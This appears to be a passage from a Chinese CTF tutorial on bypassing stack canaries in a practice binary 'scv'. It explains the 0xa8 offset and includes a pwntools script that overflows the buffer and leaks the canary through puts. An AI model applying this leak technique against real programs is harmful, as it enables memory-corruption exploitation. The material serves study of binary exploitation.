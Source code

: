 调试可以发现程序存在栈溢出，但是只要选择3，即退出程序时才会触发溢出。因为功能2会将输入输出，所以可以通过溢出的字符串拼接到canary的值，将canary的值输出（canary低8为为0x00,puts有0截断，所以输入的字符需将canary低8位覆盖）
通过查看汇编代码可以发现buf到canary的偏移为`0xb0-0x8=0xa8`,因为需要覆盖canary的低8位，所以这里构造字符长度为`0xa8+0x1=0xa9`

![Alt](img/canary15.png)
![Alt](img/canary16.png)

构造脚本泄露canary值

```python
    p = process('./scv')

    print p.recv()

    payload1 = 'A'*0xA8 + 'B'
    p.sendline('1')
    p.send(payload1)
    p.sendline('2')
    p.recvuntil("B")
    canary = u64('\x00'+p.recv(7))   # 低8位被覆盖为B，需还原为\x00,（小端）
    log.info('canary = %#x',canary)
```

![Alt](img/canary17.png)
